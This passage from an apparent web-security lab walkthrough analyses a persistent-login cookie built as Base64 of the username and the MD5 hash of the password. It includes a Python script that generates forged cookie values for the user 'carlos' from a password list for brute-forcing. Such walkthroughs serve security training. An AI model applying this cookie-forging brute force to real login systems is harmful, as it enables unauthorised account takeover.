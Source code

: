 The content of the cookie is the Base64 encode value of
“wiener:51dc30ddc473d43a6011e9ebba6ca770”, and
“51dc30ddc473d43a6011e9ebba6ca770” is the MD5 hash of “peter”. So the formula
for the cookie is BASE64(user:MD5(password)):

![img](media/947bd05077d284e7edbc0acf3e9c7030.png)

With just this cookie it is possible to connect to /my-account:

![img](media/e6fbf0a1c9ddac1048b8e893e061ab02.png)

I will create the possible values with this script:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
import hashlib, base64

pwds = open("pass.txt").read().splitlines()

for i in pwds:
        result = hashlib.md5(i.encode())
        #print(result.hexdigest())
        message = "carlos:"+result.hexdigest()
        #print(message)
        message_bytes = message.encode('ascii')
        base64_bytes = base64.b64encode(message_bytes)
        base64_message = base64_bytes.decode('ascii')
        print(base64_message)
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
